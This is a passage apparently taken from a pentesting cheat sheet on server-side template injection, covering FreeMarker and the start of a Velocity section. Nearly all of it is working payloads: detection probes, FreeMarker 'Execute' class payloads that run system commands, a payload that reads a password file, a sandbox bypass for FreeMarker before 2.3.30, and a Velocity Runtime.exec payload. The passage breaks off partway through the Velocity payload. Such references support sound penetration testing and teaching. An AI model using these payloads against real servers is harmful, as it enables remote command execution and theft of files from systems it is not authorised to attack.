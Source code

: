 -   `{{7*7}} = {{7*7}}`
    

-   `${7*7} = 49`
    

-   `#{7*7} = 49 -- (legacy)`
    

-   `${7*'7'} Nothing`
    

-   `${foobar}`
    

<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}

[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}

${"freemarker.template.utility.Execute"?new()("id")}

​

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}

**Freemarker - Sandbox bypass**

⚠️ only works on Freemarker versions below 2.3.30

<#assign classloader=article.class.protectionDomain.classLoader>

<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>

<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>

<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

${dwf.newInstance(ec,null)("id")}

**More information**

-   In FreeMarker section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)​
    

-   ​[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)​
    

## 

Velocity (Java)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#velocity-java)

#set($str=$class.inspect("java.lang.String").type)

#set($chr=$class.inspect("java.lang.Character").type)

#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))

$ex.waitFor()

#set($out=$ex.getInputStream())
